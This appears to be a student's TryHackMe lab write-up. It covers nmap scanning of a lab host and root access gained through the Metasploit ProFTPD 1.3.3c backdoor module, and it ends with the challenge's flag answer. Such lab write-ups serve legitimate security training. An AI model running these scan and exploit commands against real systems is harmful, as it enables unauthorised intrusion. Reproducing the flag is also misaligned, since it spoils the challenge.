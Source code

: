 # TryHackMe
  https://tryhackme.com/jr/mirolabscapstone
  
<img src="THM_capstone1.png"
     alt="THM_capstone1_icon"
     style="float: left; margin-right: 10px;" />

# Connection

`openvpn computershane\(1\).ovpn`

LHOST-`10.2.70.52` 

RHOST-`10.10.246.145`


# Scan

`nmap 10.10.246.145 `

Open ports found 

```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

# Enumerate

`nmap -A -sV --script vuln 10.10.246.145`

-A for agressive scan
-sV for version detection
--script vuln for vulnerabilities

`21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.`

# Exploit

`msfconsole`

`search proftp`

attack box uses version is 1.3.3C

`use exploit/unix/ftp/proftpd_133c_backdoor`

`show options`

set my RHOST to 10.10.246.145

set payload 2

`exploit`

failed

`set payload 0`

`exploit`

# Escalate

<img src="I_AM_Root.png"
     alt="I_AM_Root_icon"
     style="float: left; margin-right: 10px;" />
     
I now have Root

Sumbitted Screenshot to Professor in DM in Discord to retrieve flag for THM.

Flag

Answer-`CD89A20ADDE7A608F3331E71C37BDFA087BACBF3`












